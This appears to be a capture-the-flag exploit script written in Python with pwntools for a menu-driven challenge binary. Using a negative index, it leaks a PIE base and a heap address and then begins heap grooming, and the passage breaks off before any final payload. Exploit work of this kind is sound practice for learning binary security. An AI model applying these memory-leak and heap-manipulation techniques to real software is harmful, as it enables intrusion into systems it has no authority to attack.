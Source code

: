 

```python
from pwn import * 

context.arch='amd64'
# context.log_level = 'debug'

def add(size, name):
	sla(">> ", '1')
	sla("nter the size : ", str(size))
	sla("nter name : ", name)

def battle(id):
	sla(">> ", '2')
	sla("nter enemy id : ", str(id))

def merga(id1, id2):
	sla(">> ", '3')
	sla("id 1:", str(id1))
	sla('id 2:', str(id2))

def kill(idx):
	for i in range(7):
		battle(idx)
	sl('1')




def exp():
	sl("b"* 0x20)
	battle(-7)
	ru("Starting battle with ")
	leak = u64(re(6, 2).ljust(8, b'\x00'))
	PIE = leak - 0x4008
	print("pie: ")
	print(hex(PIE))
	slog['PIE'] = PIE 
	sl('2')


	add(0x60, '1' * 0x20) # 0
	add(0x60, '1' * 0x20) # 1

	kill(0)
	kill(1)

	add(0x20, '') # 2 
	battle(2)
	ru("Starting battle with ")
	leak = u64(re(6, 2).ljust(8, b'\x00'))
	heap = leak - 0xb00a
	print("pie: ")
	print(hex(heap))
	slog['heap'] = heap

	bin = 0x800d70 + heap 
	slog['bin'] = bin 

	add(0x20, 'a' * 0x20) # 3

	for i in range(6):
		battle(2)
	sl('1')
```